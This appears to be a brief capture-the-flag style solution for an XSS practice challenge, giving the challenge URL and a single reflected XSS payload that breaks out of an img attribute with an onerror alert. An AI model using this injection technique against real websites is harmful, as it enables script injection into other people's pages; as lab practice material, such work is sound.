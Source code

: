 Chall Url: http://www.zixem.altervista.org/XSS/4.php?img=
Payload: http://www.zixem.altervista.org/XSS/4.php?img=x%27%20onerror=%27alert(1337)
![](https://user-images.githubusercontent.com/25671488/61376052-f4bfb300-a8bd-11e9-8b96-f8970c3bbdf0.png)
